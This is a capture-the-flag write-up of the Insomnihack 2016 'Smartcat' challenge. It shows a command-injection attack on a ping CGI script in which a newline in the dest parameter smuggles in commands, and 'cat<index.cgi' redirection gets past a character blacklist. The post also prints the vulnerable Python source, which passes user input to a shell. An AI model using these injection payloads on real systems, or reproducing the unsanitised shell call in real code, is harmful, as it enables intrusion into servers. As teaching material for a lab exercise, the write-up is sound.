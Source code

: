 ```yaml
---
layout: post
title: "Smartcat"
category: Web Insomnihack Teaser 2016
author: "Leander"
date: 2016-01-21 01:10
---
```

![scoreboard](/images/2016-Insomnihack-Teaser/smartcat-scoreboard.png)

<strong>Description:</strong> Smartcat was one of the cheapest point challenges available during the Insomnihack Teaser in January 2016. When solving the challenge the team is awarded 50 points. The challenge focused on being able to identify code injection opportunities and required the challenger to know linux bash tricks.
<!--break-->

------

## Introduction

When logging into the scoreboard we were presented with an interface where when clicking around on icons a challenge would be presented. When clicking on the litter box the we were presented with the smartcat1 challenge description and provided a link to reach the challenge site. Inside the description it describes that only the debug interface is available for the smart cat litter and that it only allows pings. It also tells u the "contract number" is stored somewhere on the page. Last, the challenge description tells us that there is no need to brute-force anything.

## Problem

After clicking on the link (<http://smartcat.insomnihack.cg/cgi-bin/index.cgi>), we were provided with the Smart Cat debugging interface - which allowed us to input text into a form box labeled <strong>dest</strong>. So my first check was to see what happened when I inserted the word <em>test</em>

![test case](/images/2016-Insomnihack-Teaser/smartcat-test.png)

This let me know that not only does the website accept IP addresses to test against ping, but also other inputs. In order to enable the ability to send other input though, we had to terminate the ping command with a carriage return. So we included a ```%0a``` argument in our web url request. This allowed us to execute arbitrary commands on the web server. For example, we could also put ```index.cgi?dest=%0als``` and ```index.cgi?dest=%0apwd``` and receive the directory contents and the present working directory of the web server script.[^1]

However, when we tried to chain multiple commands together we ran into problems. We couldn't do things like cat index.cgi, which would provide us the source code we were dealing with. We also tried hex encoding, url encoding, uniencoding, and then it hit us. Why aren't we using redirection?

> Before  a  command is executed, its input and output may be redirected using a special notation interpreted by the shell.  Redirection may also be used to  open  and close files for the current shell execution environment.  The following redirection operators may precede or appear anywhere within a simple command or  may  follow  a command.   Redirections are processed in the order they appear, from left to right.

So with that we redirected a file to cat, ```index.cgi?dest=%0acat<index.cgi```. Just like that we were given the source code for the server script running the diagnostic terminal. After getting ahold of the source code we were able to quickly identify the blacklisted characters. Which were plentiful ... ```$;&|({ `\t```. This limited us to using ```=%0a%00"'\/><-```. We did try to cat<there, but received an error. So we were able to see that it was probably a directory. Which leads us to our solution ...

{% highlight python linenos %}
#!/usr/bin/env python

import cgi, subprocess, os

headers = ["mod_cassette_is_back/0.1","format-me-i-im-famous","dirbuster.will.not.help.you","solve_me_already"]

print "X-Powered-By: %s" % headers[os.getpid()%4]
print "Content-type: text/html"
print

print """
<html>

<head><title>Can I haz Smart Cat ???</title></head>

<body>

<h3> Smart Cat debugging interface </h3>
"""

blacklist = " $;&|({`\t"
results = ""
form = cgi.FieldStorage()
dest = form.getvalue("dest", "127.0.0.1")
for badchar in blacklist:
if badchar in dest:
results = "Bad character %s in dest" % badchar
break

if "%n" in dest:
results = "Segmentation fault"

if not results:
try:
results = subprocess.check_output("ping -c 1 "+dest, shell=True)
except:
results = "Error running " + "ping -c 1 "+dest


print """

<form method="post" action="index.cgi">
<p>Ping destination: <input type="text" name="dest"/></p>
</form>

<p>Ping results:</p><br/>
<pre>%s</pre>

<img src="../img/cat.jpg"/>

</body>

</html>
""" % cgi.escape(results)
{% endhighlight %}

## Solution
While we were researching how to enumerate the directory we remembered about the ```find``` command.[^2] After, that it was easy to solve the problem, based on our progress so far. We executed a get request using, ```index.cgi?dest=%0afind``` and then used ```cat``` to retrieve the flag.

![solution](/images/2016-Insomnihack-Teaser/smartcat-solution.png)

------

## Endnotes

[^1]: Notice we did not include the entire url here. This is only for ease of creating the write-up. When crafting the HTTP get request it is required to send our input to the actual host address. I.e. http://smartcat.insomnihack.cg/cgi-bin/index.cgi

[^2]: The find utility recursively descends the directory tree for each path listed, evaluating an expression (composed of the ``primaries'' and ``operands'' listed below) in terms of each file in the tree.
